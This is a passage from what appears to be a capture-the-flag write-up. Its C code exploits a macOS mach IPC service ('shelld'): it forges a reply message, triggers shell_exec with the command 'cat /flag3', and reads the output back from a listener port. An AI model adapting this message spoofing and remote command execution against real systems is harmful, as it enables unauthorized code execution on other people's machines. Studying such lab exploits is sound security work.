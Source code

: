 ```c
                    kern_return_t RetCode;
                    int result;
                } Reply;
                
                // Some mach magic...
                Reply repl;
                memcpy(&repl, buf, sizeof(mach_msg_header_t));
                repl.RetCode = 0;
                repl.result = 1;
                repl.Head.msgh_id = 733201;
                repl.Head.msgh_bits &= ~MACH_MSGH_BITS_COMPLEX;
                repl.Head.msgh_size = 40;
                repl.Head.msgh_voucher_port = MACH_PORT_NULL;
                repl.Head.msgh_local_port = listenerPort;
                kern_return_t kr = mach_msg_send((mach_msg_header_t*) &repl);
                if (kr != KERN_SUCCESS) {
                    printf("Sending reply failed! %d\n", kr);
                    return;
                }
            }
        });
        
        if (shell_exec(shelld, pwnSession, "cat /flag3") == KERN_SUCCESS) {
            // Get reply and exit
            // [Part three here]
            return 0;
        }
        
        // Failed
        // Unregister but do not delete port
        unregister_listener(shelld, pwnSession);
    }
```

Now whats left is to receive the result from our exec. It will be sent to the listener port.

```c
            // Part three
            
            // Receive the output
            char buf[2048];
            if (mach_msg((mach_msg_header_t*)buf, MACH_RCV_MSG|MACH_MSG_OPTION_NONE, 0, 2048, listenerPort, MACH_MSG_TIMEOUT_NONE, 0) == KERN_SUCCESS) {
                printf("Successfully received reply!\n");
                typedef struct {
                    mach_msg_header_t Head;
                    uint64_t unk1;
                    uint32_t exitCode;
                    uint32_t unk2;
                    uint32_t unk3;
                    char result[4096];
                } Answer;
                
                Answer *ans = (Answer*) buf;
                printf("Exit code: %u\nResult: %s\n", ans->exitCode, ans->result);
                
                return 0;
            }
```
